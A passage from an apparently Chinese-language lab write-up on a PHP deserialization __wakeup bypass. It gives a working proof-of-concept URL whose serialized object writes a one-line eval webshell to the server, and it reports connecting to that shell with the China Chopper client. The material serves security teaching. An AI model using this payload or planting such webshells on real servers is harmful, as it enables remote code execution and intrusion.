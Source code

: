 在对应的文件夹找到刚刚写入的文件poc.php，发现文件中内容为空，没有一句话木马，说明写入失败。

![image-20221014180349713](../../images/image-20221014180349713.png)

失败原因为：destruct方法在调用时将name参数写入wcute.php
文件但是由于wakeup方法清除了对象属性，所以在调用__destruct时已经没有了name属性，因此文件将会写入失败。
将Poc中对象属性个数改为2继续尝试

Poc为：

```
http://ip/poc7124.php?s=O:4:"test":2:{s:4:"name";s:29:"<?php @eval($_POST['123']);?>";}
```

执行后如下图所示：

![image-20221014180432191](../../images/image-20221014180432191.png)

在对应的文件夹找到该文件发现文件中被写入了一句话木马。

如图所示：

![image-20221014180452229](../../images/image-20221014180452229.png)

使用菜刀连接http://172.16.75.36/poc.php
发现连接成功，如下图所示

![image-20221014180505556](../../images/image-20221014180505556.png)
